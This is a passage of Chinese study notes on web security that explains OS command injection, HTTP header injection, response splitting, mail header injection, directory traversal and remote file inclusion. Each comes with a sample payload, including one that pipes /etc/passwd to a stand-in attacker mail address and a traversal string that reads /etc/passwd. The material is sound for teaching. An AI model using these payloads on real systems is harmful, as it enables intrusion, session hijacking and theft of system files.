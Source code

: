 - OS 命令注入攻击（OS Command Injection）是指通过 Web 应用，执行非法的操作系统命令达到攻击的目的。

  例如邮件发送的核心代码中有`open(MAIL, "| /usr/sbin/sendmail $adr");`，攻击者将`; cat /etc/passwd | mail hack@example.jp`指定为邮件地址（虽然现在的校验一定会检查出来），这样程序拼接的指令变为`| /usr/sbin/sendmail ; cat /etc/passwd | mail hack@example.jp`。

- HTTP 首部注入攻击（HTTP Header Injection）是指攻击者通过在响应首部字段内插入换行，添加任意响应首部或主体的一种攻击。可能会导致设置任何 Cookie 信息、重定向至任意 URL、显示任意的主体（HTTP 响应截断攻击）等后果。

  例如网页中通过一个查询参数重定向到指定页面`http://example.com/?cat=101`，攻击者直接请求`http://example.com/?cat=101%0D%0ASet-Cookie:+SID=123456789`，%0D%0A 代表 HTTP 报文中的换行符，于是将本次会话id改成指定的值，可以伪装用户。

- HTTP 响应截断攻击是用在 HTTP 首部注入的一种攻击。攻击顺序相同，但是要将两个 %0D%0A%0D%0A 并排插入字符串后发送。利用这两个连续的换行就可作出 HTTP 首部与主体分隔所需的空行了，这样就能显示伪造的主体，达到攻击目的。

- 邮件首部注入（Mail Header Injection）是指 Web 应用中的邮件发送功能，攻击者通过向邮件首部 To 或 Subject 内任意添加非法内容发起的攻击。

  如`bob@hackr.jp%0D%0ABcc: user@example.com`利用换行符追加发送，`bob@hackr.jp%0D%0A%0D%0ATest Message`利用两个换行符篡改邮件内容。

- 目录遍历（Directory Traversal）攻击是指对本无意公开的文件目录，通过非法截断其目录路径后，达成访问目的的一种攻击。

  如`http://example.com/read.php?log=../../etc/passwd`，都是在请求参数上搞小动作。

- 远程文件包含漏洞（Remote File Inclusion）是指当部分脚本内容需要从其他文件读入时，攻击者利用指定外部服务器的 URL 充当依赖文件，让脚本读取之后，就可运行任意脚本的一种攻击。

  ![](img/HTTP/50.png)

#### 11.3 因设置或设计上的缺陷引发的安全漏洞
